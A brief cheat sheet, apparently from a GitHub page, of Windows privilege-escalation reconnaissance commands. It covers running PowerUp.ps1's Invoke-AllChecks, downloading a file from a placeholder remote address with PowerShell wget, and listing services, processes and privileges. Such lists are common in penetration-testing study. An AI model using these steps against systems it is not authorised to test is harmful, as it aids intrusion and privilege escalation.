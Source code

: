 ##### Execute PowerUp.ps1
```powershell
# Run and do AllChecks in one line.
PowerShell.exe Invoke-Command -ScriptBlock { "Import-Module .\PowerUp.ps1; Invoke-AllChecks"} 
```

##### Download A File To Disk
```bash
powershell -c wget "http://<Source Address>/<Source File>" -outfile "<Output File>"
```

##### Get List of Running Services
```powershell
powershell Get-Service
```

##### Get list of processes running, sorted by name.
```powershell
tasklist /NH | sort
```

```bash
whoami /priv
```